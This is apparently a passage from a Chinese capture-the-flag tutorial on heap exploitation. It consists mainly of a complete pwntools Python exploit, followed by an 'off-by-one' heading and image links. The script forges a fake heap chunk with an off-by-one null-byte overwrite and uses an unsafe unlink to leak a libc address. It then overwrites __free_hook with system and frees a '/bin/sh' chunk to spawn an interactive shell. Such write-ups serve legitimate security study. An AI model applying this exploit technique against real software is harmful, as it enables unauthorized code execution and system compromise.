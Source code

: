 ```python

def show(i):
    p.recvuntil('>')
    p.sendline('3')
    p.recvuntil('index?')
    p.sendline(str(i))

def edit(i,s):
    p.recvuntil('>')
    p.sendline('4')
    p.recvuntil('index?')
    p.sendline(str(i))
    p.recvuntil('data')
    p.send(s)
# launch_gdb()
data_addr=0x602120
new(0x108,'aaa')#size=0x110
new(0xf0,'bbb')#size=0x100
new(0x100,'/bin/sh\x00')

payload=p64(0)+p64(0x101)+p64(data_addr-0x18)+p64(data_addr-0x10)
payload=payload.ljust(0x100,'a')+p64(0x100)+p8(0)#伪造prev size
edit(0,payload)
delete(1)


edit(0,p64(0)*3+p64(data_addr-0x18)+p64(0x602018))
show(1)
leak=u64(p.recv(6)+'\x00\x00')-0x84540
success('libc addr:'+hex(leak))
free_hook=leak+0x3c67a8

edit(0,p64(0)*3+p64(data_addr-0x18)+p64(free_hook))

edit(1,p64(0x453a0+leak))
delete(2)
p.interactive()
```

# 

# off-by-one

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605095661988-99d44bc8-0254-42b2-90e6-b4f168e86c51.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605095766199-8e6ccb0f-17b3-4c69-9cef-7114ef7f6566.png)

## 例题offbyone
